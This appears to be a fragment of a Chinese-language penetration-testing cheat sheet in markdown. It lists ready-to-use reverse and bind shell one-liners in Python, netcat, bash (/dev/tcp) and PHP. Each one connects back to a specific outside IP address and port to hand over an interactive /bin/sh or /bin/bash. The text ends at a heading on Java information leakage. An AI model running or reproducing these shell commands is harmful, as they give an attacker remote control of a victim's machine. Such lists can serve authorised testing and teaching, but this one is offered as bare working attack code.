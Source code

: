 ```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("124.70.141.45",9998));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### nc

```shell
# 正向shell
nc -lvvp 9999 -e /bin/bash   
nc Rhost 9999                # hacker
# 反向shell
nc -e /bin/bash 124.70.141.45 9999
nc -lvvp 9999                # hacker
```

### bash

```shell
bash -i >& /dev/tcp/124.70.141.45/9998 0>&1
bash -c "bash -i >& /dev/tcp/124.70.141.45/9998 0>&1"
```

### php

```shell
php -r '$sock=fsockopen("124.70.141.45",9997);exec("/bin/sh -i <&3 >&3 2>&3");'
```



## JAVA

### 信息泄露

![20210225195910805](/img/20210225195910805.png)
